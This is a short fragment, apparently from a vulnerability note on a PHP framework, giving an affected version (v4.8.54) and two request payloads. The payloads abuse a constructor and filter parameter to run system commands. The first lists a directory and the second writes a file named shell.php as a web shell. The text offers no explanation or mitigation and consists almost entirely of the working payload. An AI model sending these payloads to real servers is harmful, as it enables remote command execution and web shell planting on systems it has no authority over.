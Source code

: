 <languages />

漏洞影響
--------

v4.8.54

Payload
-------

    s=dir&_method=__construct&method=*&filter[]=system

    s=echo "shell" >shell.php&filter[]=system&method=*&_method=__construct